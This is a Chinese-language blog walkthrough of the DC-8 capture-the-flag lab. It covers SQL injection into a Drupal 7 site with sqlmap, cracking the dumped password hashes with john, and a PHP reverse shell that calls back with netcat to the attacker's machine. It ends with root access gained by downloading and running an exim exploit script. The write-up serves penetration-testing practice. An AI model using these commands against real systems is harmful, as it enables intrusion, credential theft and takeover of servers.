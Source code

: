 ```yaml
---
layout: post
title: DC-8
subtitle: DC-8
date: 2023-07-17 09:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 信息搜集

扫描 IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/WUE7BR.png)

扫描端口发现 80 和 22 端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/YDtSmm.png)

目录扫描发现登录地址 `/user/login/`

```shell
dirsearch -u http://192.168.163.131 -e* -i 200
```

![image.png](https://img.ghostliner.top/3yhHXh.png)

指纹识别，发现站点为 `Drupal 7`

```shell
whatweb -v http://192.168.163.131
```

![image.png](https://img.ghostliner.top/Ut8ZAj.png)

浏览器查看站点地址： <http://192.168.163.131/?nid=1>

`nid=1'` 测试发现存在 sql 注入

![image.png](https://img.ghostliner.top/pJ82cf.png)

## 2. 渗透测试

#### 2.1.1. 数据库爆破

sqlmap 爆破数据库，获取用户名密码

```shell
# 获取当前数据库
sqlmap -u http://192.168.163.131/?nid=1 --current-db --batch
# 获取数据库表
sqlmap -u http://192.168.163.131/?nid=1 -D d7db --tables
# 获取表中列
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users --columns
# 获取用户名，密码
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users -C name,pass --dump
```

数据库名：`d7db`
![image.png](https://img.ghostliner.top/c6ezx6.png)

数据库中 users 表的列名，发现其中有 `name`, `pass`
![image.png](https://img.ghostliner.top/V508yv.png)

获取到用户名、密码
![image.png](https://img.ghostliner.top/2Ox8LF.png)

`$S`为`Drupal`的密码哈希加密格式，尝试用 `john` 破解

```shell
echo '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z' > john.txt
echo '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF' >> john.txt
john john.txt
# turtle
```

#### 2.1.2. 反弹 shell

使用用户名：john，密码：turtle 登录成功，浏览网站

在此页面发现可以注入 PHP 代码： <http://192.168.163.131/node/3#overlay-context=user/2&overlay=node/3/webform/configure>

添加反弹 shell 代码

```php
<?php exec('nc -nv 192.168.163.132 4444 -c /bin/bash');?>
```

![image.png](https://img.ghostliner.top/J24lVZ.png)

kali 开启监听，浏览器访问`Contact Us` 页面，提交内容后，kali 成功连接到 shell

![image.png](https://img.ghostliner.top/WdaAm9.png)

#### 2.1.3. 提权

`sudo -l` 提权失败，尝试 find 提权

```shell
find / -user root -perm -4000 -type f 2> /dev/null
```

发现 `/usr/sbin/exim4`

![image.png](https://img.ghostliner.top/gm1yev.png)

查看`exim4`版本为：4.89

![image.png](https://img.ghostliner.top/jwMu1W.png)

搜索相关漏洞

```shell
searchexploit exim
```

![image.png](https://img.ghostliner.top/ppHChf.png)

使用 `46996.sh`脚本，将其传输到目标机

```shell
# 复制到当前目录
searchexploit -m 46996
```

查看内容，发现两种使用方法

方法 1：`-m setuid`
![image.png](https://img.ghostliner.top/CQexEH.png)

方法 2：`-m netcat`
![image.png](https://img.ghostliner.top/qEb0I1.png)

将 `46996.sh`传输到目标机

```shell
# 开启http服务
python -m http.server 8000
# 目标机获取脚本
wget http://192.168.163.132:8000/46996.sh
# 添加执行权限
chmod +x 46996.sh
# 提权方法1
./46996.sh -m setuid
# 提权方法2
./46996.sh -m netcat
```

方法 1 提权失败
![image.png](https://img.ghostliner.top/8zuEL4.png)

方法 2 提权成功
![image.png](https://img.ghostliner.top/Ko5DKw.png)

#### 2.1.4. 获取 flag

root 目录下获取到 flag 文件
![image.png](https://img.ghostliner.top/cNlIz1.png)

